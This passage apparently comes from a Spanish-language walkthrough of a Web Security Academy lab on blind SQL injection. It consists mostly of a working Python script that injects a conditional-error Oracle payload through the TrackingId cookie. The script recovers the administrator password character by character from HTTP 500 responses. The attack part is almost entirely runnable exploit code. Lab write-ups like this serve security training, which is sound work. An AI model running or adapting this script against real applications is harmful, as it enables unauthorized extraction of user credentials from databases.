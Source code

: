 > De forma opcional podemos ver el tamaño de la contraseña, esto nos da más precisión a la hora de crear el script en python.

```bash
❯ python3 sqli.py
```

```python
import requests
import signal
import sys
import string
import time
from pwn import *


def def_handler(sig,frame):
	print('\n\n[+] Exiting...\n')
	sys.exit(1)


signal.signal(signal.SIGINT,def_handler)


characters= string.digits + string.ascii_letters
url= "https://0ace00db03ba6e9781d643b800200050.web-security-academy.net/filter?category=Clothing%2c+shoes+and+accessories"


def SQLI():
	password=""
	p1.status("Starting")
	time.sleep(2)
	for position in range(1,21):
		for character in characters:
			cookies= {
			'TrackingId' : f"TvXMzKlqgSfVoLVu'union (SELECT CASE WHEN ((select SUBSTR(password,{position},1) from users where username='administrator')='{character}') THEN TO_CHAR(1/0) END FROM dual)-- -",
			'session':'ssseVb0zU0yGxMnWleooIm2dOnRjdt5T'
			}
			p1.status(cookies['TrackingId'])
			r= requests.get(url=url,cookies=cookies)
			if r.status_code==500:
				password+=character
				p2.status(password)
				break


if __name__ == '__main__':
	p1=log.progress("SQLI")
	p2=log.progress("Password")
	SQLI()
```
